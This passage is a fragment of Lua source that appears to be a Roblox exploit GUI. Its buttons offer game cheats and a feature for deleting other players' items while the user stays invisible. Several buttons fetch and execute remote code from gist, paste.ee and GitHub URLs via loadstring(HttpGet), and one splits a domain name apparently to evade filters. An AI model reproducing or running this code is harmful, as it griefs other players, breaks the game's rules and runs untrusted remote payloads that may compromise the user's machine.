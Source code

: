 rm()
wait(0.5)
Humanoid:FindFirstChild("HeadScale"):Destroy()
wait(1)
end)
Tab2Section:NewButton("Trade Value", "Gives you trade value", function()
    game.Players.localPlayer.XRay.Value = true
end)
Tab2Section:NewButton("fake drop gui", "Executes fake drop gui", function()
    loadstring(game:HttpGet("https://gist.githubusercontent.com/domdaobfuscater/09214a11b8a30bab47ceff281116195f/raw/40356a0ff4542a51283ab5de0a642233a6ceb6f9/gistfile1.txt"))()
end)
Tab2Section:NewButton("rejoin server", "rejoins the server", function()
    game:GetService("TeleportService"):Teleport(game.PlaceId, game:GetService("Players").LocalPlayer)
end)
Tab2Section:NewButton("Deleted Item [ F ]", "Deleted Other Item Press F", function()

    --[[
    script by Stan#8292
]]
getgenv().bind = "F" --keybind to delete popits near you
getgenv().invis = false --turns you invis so people cant see you deleting their stuff (resetting will uninvis you)
getgenv().on = true --setting this to false will stop the script
getgenv().IgnoredList = { --ignored people (script won't delete popits from these people)
    "Person1",
    "Person2",
    "Person3"
}

local domain = "paste.ee"
loadstring(game:HttpGet("https://"..domain.."/r/WFYpr/0"))()
end)
Tab2Section:NewButton("Keyboard Script", "Keyboard Script", function()

    loadstring(game:HttpGet("https://raw.githubusercontent.com/advxzivhsjjdhxhsidifvsh/mobkeyboard/main/main.txt", true))()

end)

